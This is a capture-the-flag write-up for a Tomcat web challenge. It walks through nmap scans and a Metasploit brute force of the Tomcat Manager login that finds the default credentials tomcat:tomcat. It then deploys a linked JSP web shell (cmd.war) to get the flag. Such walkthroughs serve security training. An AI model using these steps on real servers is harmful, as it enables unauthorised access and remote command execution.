



# Meow

## Web: 90 Points

## Challenge
We're using Tomcat to manage our challenges.laptophackingcoffee.org server. Is that bad?

(Note: The server resets to default every 30 minutes. All progress will be lost.)

## Solution

Scan the given URL with Nmap:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -Pn
...
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d4:ce:7d:2e:95:fd:ee:35:8e:18:1e:0b:05:b4:57:ff (RSA)
|   256 e8:90:b0:4c:70:3a:42:18:dd:46:f7:a4:f5:8d:60:31 (ECDSA)
|_  256 18:a4:49:d9:29:26:25:7d:aa:93:e1:af:17:0f:d3:66 (ED25519)
3389/tcp closed ms-wbt-server
4242/tcp open   http          Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Coding A CSS3 &amp; HTML5 One Page Template | Tutorialzine demo
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
8086/tcp closed d-s-n
8090/tcp closed opsmessaging
8888/tcp open   http          nginx 1.17.0
|_http-server-header: nginx/1.17.0
|_http-title: Steve's Super Secure Storage Page
9999/tcp closed abyss                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Note that port 8080 is hosting the Tomcat server mentioned in the challenge:
```
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
```

Scan just port 8080:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -p 8080 -Pn                              
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
...
```

Open the URL with port 8080 in the browser:

http://challenges.laptophackingcoffee.org:8080/

This page is the default Apache Tomcat homepage: 



Browse around. Click the **Manager App** button. Notice that the Manager App requires a username and password. Could this be a potential entry point?



Start up metasploit and search for *Tomcat*:
```
$ msfconsole
...
msf5 > search tomcat

Matching Modules
================

   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------
   1   auxiliary/admin/http/tomcat_administration                                    normal     No     Tomcat Administration Tool Default Access
   2   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability
   3   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   4   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   5   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   6   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   7   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
...
```

Out of the search results, the `auxiliary/scanner/http/tomcat_mgr_login` (#8) looks like the most relevant exploit. Select the exploit (`use 8`). Use the `info` and `show options` commands to view more details about the exploit. 

```
msf5 > use 8
msf5 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            challenges.laptophackingcoffee.org                                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host
```

Note that the `RPORT` is already set to 8080. Set the `RHOSTS` option to the LHC website and run the exploit:
```
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS challenges.laptophackingcoffee.org
RHOSTS => challenges.laptophackingcoffee.org
msf5 auxiliary(scanner/http/tomcat_mgr_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
...
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The exploit succeeded! Login successful:
```
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
```

Visit the Tomcat page and login with these credentials. 
```
user:     tomcat
password: tomcat
```

Access granted: 


The page has a very alluring **Deploy** section. It allows users to **Select WAR file to upload** and then click the **Deploy** button. Further [research][1] confirms that this capability is dangerous. One of the [ways][3] to exploit this is through a web shell. Download the [cmd.war](cmd.war) file from this [github repo][4]. Upload and deploy it to the manager page.

There will be a path called `/cmd`. 

http://challenges.laptophackingcoffee.org:8080/cmd/cmd.jsp

```
LHC{T0Mc@t_D3F@ult}

```


## Resources
* [HackTheBox Writeup - Jerry][1]
* [GitHub: Apache Tomcat Default Credentials][2]
* [Multiple Ways to Exploit Tomcat Manager][3]
* [GitHub: Web Shells][4]

[1]:https://medium.com/@hussaini.faisal/hackthebox-writeup-jerry-aa2b992917a7
[2]:https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
[3]:https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
[4]:https://github.com/jbarcia/Web-Shells/blob/master/laudanum/jsp/cmd.war